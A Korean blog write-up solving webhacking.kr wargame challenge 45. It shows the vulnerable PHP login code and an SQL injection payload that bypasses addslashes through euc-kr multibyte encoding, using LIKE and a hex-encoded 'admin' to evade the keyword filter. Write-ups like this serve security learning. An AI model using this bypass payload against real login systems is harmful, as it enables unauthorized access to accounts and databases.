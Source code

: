 ```yaml
---
title: "[webhacking.kr] 45번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "45번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 45번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152755575-57026a88-2193-49dd-b9b5-5ff03a78f7a5.png)


  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
  ```


# 문제 풀이
  다음의 sql 문을 인젝션 하여 admin이 나오도록 하면 됩니다.

  ```sql
select id from chall45 where id='{}' and pw=md5('%aa') or id like 0x61646d696e-- ')
  ```

  이번 문제는 addslashes() 함수와 mb_convert_encoding 함수가 같이 쓰이면서 multibyte encoding을 통해서 addslashes함수를 우회할 수 있습니다.

  mb_convert_encoding이 'id'에 쓰였기 때문에 공격지점은 id로 하고, 다음과 같이 injection을 시킬 페이로드 초안을 작성합니다.

  ```sql
  id = %aa' or id='admin'#
  ```

  이제 위의 초안에서 필터링 되는 문자열들을 고려하여 우회하여 줍니다.

  - ```=``` : like 사용으로 우회
  - ```admin``` : 0x61646d696e 로 우회
  
  따라서 다음과 같이 변형시켜서 injection을 시도합니다.

  ```sql
  %aa' or id like 0x61646d696e#
  ```

  위의 값을 인코딩하여 입력하면 다음과 같이 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/152758302-7d3bd5f8-0408-4dfd-8794-a91be9d3321c.png)


 